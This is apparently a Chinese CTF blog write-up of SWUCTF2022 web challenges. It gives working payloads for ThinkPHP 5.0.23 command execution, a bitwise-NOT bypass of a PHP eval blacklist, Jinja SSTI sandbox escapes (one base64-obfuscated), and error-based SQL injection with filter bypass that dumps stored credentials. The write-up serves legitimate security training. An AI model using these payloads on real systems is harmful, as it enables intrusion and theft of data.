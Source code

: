 ```yaml
---
title: SWUCTF2022 Web Writeups | CTF
abbrlink: adc75ba0
tags:
  - SWUCTF
  - Writeup
categories:
  - CTF
date: 2022-05-24 21:56:32
---
```


好多题不会，救

<!-- more -->

# THINKPHP?

?s=captcha

![](https://ovo.btwoa.com/img/webp/202205242206767.webp)

V5.0.23

```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=env
```

![](https://ovo.btwoa.com/img/webp/202205242209220.webp)

# PHP? Eval? 

```
<?php
highlight_file(__FILE__);
error_reporting(0);
$blacklist = ["system", "ini_set", "exec", "scandir", "shell_exec", "proc_open", "error_log", "ini_alter", "ini_set", "pfsockopen", "readfile", "echo", "file_get_contents", "readlink", "symlink", "popen", "fopen", "file", "fpassthru"];
$blacklist = array_merge($blacklist, get_defined_functions()['internal']);
foreach($blacklist as $i){
    if(stristr($_GET[cmd], $i)!==false){
        die('hack');
    }
}
eval($_GET[cmd]);
?>
```

## URL编码取反绕过

```
php -r "var_dump(urlencode(~'system'));" => string(18) "%8C%86%8C%8B%9A%92"
php -r "var_dump(urlencode(~'cat /flag'));" => string(27) "%9C%9E%8B%DF%D0%99%93%9E%98"
```

```
?cmd=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%9E%98);
```

![](https://ovo.btwoa.com/img/webp/202205242250287.webp)

# Py?py

[SSTI/沙盒逃逸详细总结-CoCo1er](https://www.anquanke.com/post/id/188172#h3-15)

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('cat flag.txt').read()")}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['ZXZhbA=='.decode('base64')]("X19pbXBvcnRfXygnb3MnKS5wb3BlbignY2F0IGZsYWcudHh0JykucmVhZCgp".decode('base64'))}}
```

![](https://ovo.btwoa.com/img/webp/202205250017411.webp)

# SQL? no sqlmap

![](https://ovo.btwoa.com/img/webp/202205242255472.webp)

报错注入

```
'or(updatexml(1,concat(0x7e,version(),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2Cversion%28%29%2C0x7e%29%2C1%29%29%23
```

\~10.3.18-MariaDB\~

![](https://ovo.btwoa.com/img/webp/202205242301210.webp)

```
'or(updatexml(1,concat(0x7e,database(),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2Cdatabase%28%29%2C0x7e%29%2C1%29%29%23
```

\~vaalacat\~

![](https://ovo.btwoa.com/img/webp/202205242300745.webp)

```
'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28select%28group_concat%28table_name%29%29from%28information_schema.tables%29where%28table_schema%29like%28database%28%29%29%29%2C0x7e%29%2C1%29%29%23
```

![](https://ovo.btwoa.com/img/webp/202205242304240.webp)

过滤了 select 

双写绕过

```
'or(updatexml(1,concat(0x7e,(selselectect(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28selselectect%28group_concat%28table_name%29%29from%28information_schema.tables%29where%28table_schema%29like%28database%28%29%29%29%2C0x7e%29%2C1%29%29%23
```

\~vaala\~

![](https://ovo.btwoa.com/img/webp/202205242307692.webp)

```
'or(updatexml(1,concat(0x7e,(selselectect(group_concat(column_name))from(information_schema.columns)where(table_name)like('vaala')),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28selselectect%28group_concat%28column_name%29%29from%28information_schema.columns%29where%28table_name%29like%28%27vaala%27%29%29%2C0x7e%29%2C1%29%29%23
```

\~id,username,password\~

![](https://ovo.btwoa.com/img/webp/202205242310530.webp)

```
'or(updatexml(1,concat(0x7e,(selselectect(group_concat(username,'~',password))from(vaala)),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28selselectect%28group_concat%28username%2C%27~%27%2Cpassword%29%29from%28vaala%29%29%2C0x7e%29%2C1%29%29%23
```

'\~vaala\~flag{ccb506e8-afa0-46b8-b'

![](https://ovo.btwoa.com/img/webp/202205242312864.webp)

```
'or(updatexml(1,concat(0x7e,(selselectect(group_concat((right(password,30))))from(vaala)),0x7e),1))# => %27or%28updatexml%281%2Cconcat%280x7e%2C%28selselectect%28group_concat%28%28right%28password%2C30%29%29%29%29from%28vaala%29%29%2C0x7e%29%2C1%29%29%23
```

![](https://ovo.btwoa.com/img/webp/202205242316572.webp)

'~8-afa0-46b8-b177-e3a2fc5592b6}~'

flag{ccb506e8-afa0-46b8-b177-e3a2fc5592b6}


